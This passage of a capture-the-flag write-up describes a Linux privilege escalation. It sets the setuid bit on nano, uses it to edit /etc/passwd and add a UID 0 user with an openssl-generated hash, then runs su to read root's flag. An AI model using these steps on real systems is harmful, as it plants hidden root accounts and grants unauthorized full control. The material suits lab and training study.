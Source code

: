 By inserting `chmod u+s /bin/nano`, the program nano (owned by `root`) was assigned the `setuid` flag. In this fashion, when executed it will run with the privileges of the owner, that is, as `root`.  
In order for the modification to take place it is necessary to exit the SSH server and log in once again. After login, running `ls -l /bin/nano` returns 

![Nano](images/setuid_nano.png)

With `nano` is now possible to modify `/etc/passwd` to add a new user by adding the line
```bash
aleq:x:0:0::/root:/bin/bash
```
where `x` is replaced by the output of
```bash
openssl passwd -salt randomsalt -1 pass
```
that is
```
$1$randomsa$z9sZ//wbn6R75OIQ7w2ws.
```
Now it is possible to use the substitute user command `su` to become the newly created user that has superuser privileges, as specified by the `suid` and `guid` values, both set at `0`. The following commands allow to obtain root privileges and read the flag, terminating the challenge:
```bash
su aleq
cd /root
cat root.txt
```